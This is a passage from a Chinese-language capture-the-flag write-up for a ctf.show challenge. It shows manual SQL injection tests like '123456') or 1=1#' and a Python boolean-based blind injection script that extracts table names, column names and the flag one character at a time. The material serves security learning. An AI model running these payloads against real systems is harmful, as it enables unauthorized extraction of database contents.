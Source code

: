 ```php

	}
}
```

复现，测试回显

```
123456') or 1=1#                       响应包回显有 admin
123456') or 1=2#                       
```

<img src=".\图片\Snipaste_2023-08-11_15-33-38.png" alt="Snipaste_2023-08-11_15-33-38" style="zoom:67%;" />

构造 poc，布尔盲注

```php
import requests
import string
url="http://083a9c00-fe69-438a-be91-a0435967ee18.challenge.ctf.show/index.php?action=check&username=admin1&password=1') or "
s=string.digits+string.ascii_lowercase+"{-}"
flag=''
for i in range(1,46):
	print(i)
	for j in s:
		#data="if((select substr(group_concat(table_name),{0},1) from information_schema.tables where table_schema=database())='{1}',1,0)%23".format(i,j)
		#data="if((select substr(group_concat(column_name),{0},1) from information_schema.columns where table_name='flag')='{1}',1,0)%23".format(i,j)
		data="if((select substr(flag,{0},1) from flag )='{1}',1,0)%23".format(i,j)
		u=url+data
		#print(u)
		r=requests.get(u)
		if "admin" in r.text:
			flag+=j
			print(flag)
			break	
```
